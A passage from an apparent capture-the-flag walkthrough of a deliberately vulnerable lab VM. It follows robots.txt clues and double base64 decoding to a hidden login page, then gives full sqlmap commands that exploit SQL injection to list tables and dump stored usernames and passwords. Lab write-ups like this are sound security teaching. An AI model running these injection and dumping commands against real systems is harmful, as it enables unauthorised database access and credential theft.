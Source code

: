 
check the page 

{% img  /images/blog/vulhub/lordroot/Selection_006.png   [title manually exploit [alt text]] %}


check the image info, 

{% img  /images/blog/vulhub/lordroot/Selection_007.png   [title manually exploit [alt text]] %}

find an `/images/`, go to the directory.

nothing cool. check the source code find a `/icons/`.

{% img  /images/blog/vulhub/lordroot/Selection_008.png   [title manually exploit [alt text]] %}

check `http://192.168.41.159:1337/robots.txt`

{% img  /images/blog/vulhub/lordroot/Selection_009.png   [title manually exploit [alt text]] %}

I check `THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh` and it is base64 encoded.

Decode it in hackbar, I get:

`Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!`

This is also base64 encoded.

Decode it again, 

`/978345210/index.php`

{% img  /images/blog/vulhub/lordroot/Selection_010.png   [title manually exploit [alt text]] %}

save the post requst in burpsuit as file post.txt

`sqlmap -r post.txt -p username --risk=3 --level=5`

{% img  /images/blog/vulhub/lordroot/Selection_011.png   [title manually exploit [alt text]] %}

username is vulnerable.

get table name

`sqlmap -r post.txt -p username --risk=3 --level=5 --dbms=mysql --tables`


webapp database
{% img  /images/blog/vulhub/lordroot/Selection_012.png   [title manually exploit [alt text]] %}


mysql
{% img  /images/blog/vulhub/lordroot/Selection_013.png   [title manually exploit [alt text]] %}

get columns of webapp

`sqlmap -r post.txt -p username --risk=3 --level=5 --dbms=mysql -D Webapp -T Users --columns`

{% img  /images/blog/vulhub/lordroot/Selection_014.png   [title manually exploit [alt text]] %}

dump username and password

`sqlmap -r post.txt -p username --risk=3 --level=5 --dbms=mysql -D Webapp -T Users -C username,password --dump`

